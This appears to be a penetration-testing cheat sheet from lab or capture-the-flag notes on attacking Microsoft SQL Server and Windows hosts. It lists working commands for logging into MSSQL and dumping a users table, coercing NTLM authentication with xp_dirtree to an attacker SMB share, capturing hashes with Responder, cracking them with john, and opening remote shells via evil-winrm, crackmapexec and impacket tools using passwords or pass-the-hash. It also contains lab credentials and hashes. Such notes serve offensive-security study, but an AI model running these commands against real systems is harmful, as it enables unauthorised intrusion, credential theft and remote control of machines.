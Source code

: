 ## For xp_dirtree (access mssql with mssqlclient.py)
```cmd
python3 mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb

OR

impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

select @@version;
SELECT name FROM sys.databases;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;
or
use offsec;
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
select * from users
```
```bash (impacket)
python3 smbserver.py nox_share . -smb2support
```
```sql (di CLI mssqlmya)
xp_dirtree "\\10.10.10.10\nox_share"
```
> Get the NTLMv2 hash and crack it, or just use hash to winrm


## For Responder

> Start a listener
```bash
sudo responder -I tun0 -wd -v

Kirim requestnya
```
> Crack the NTLMv2 hash with john
```bash
john ntlmv2_hash --wordlist=/opt/wordlists/rockyou.txt
```
> Access the server with crackmapexec or evil-winrm or impacket-psexec or impacket-wmiexec or impacket-smbexec
```bash
crackmapexec winrm 192.168.123.165 -d heist.offsec -u enox -p california -x whoami
```
```bash
evil-winrm -i 192.168.123.165 -u enox -p california
evil-winrm -i 192.168.199.212 -u Administrator -H 7a38310ea6f0027ee955abed1762964b
```
```bash
impacket-psexec admin:UWyBGeTp3Bhw7f@10.5.5.30
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.199.212
```
```bash
impacket-smbexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.199.212
```
```bash
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.199.212
```
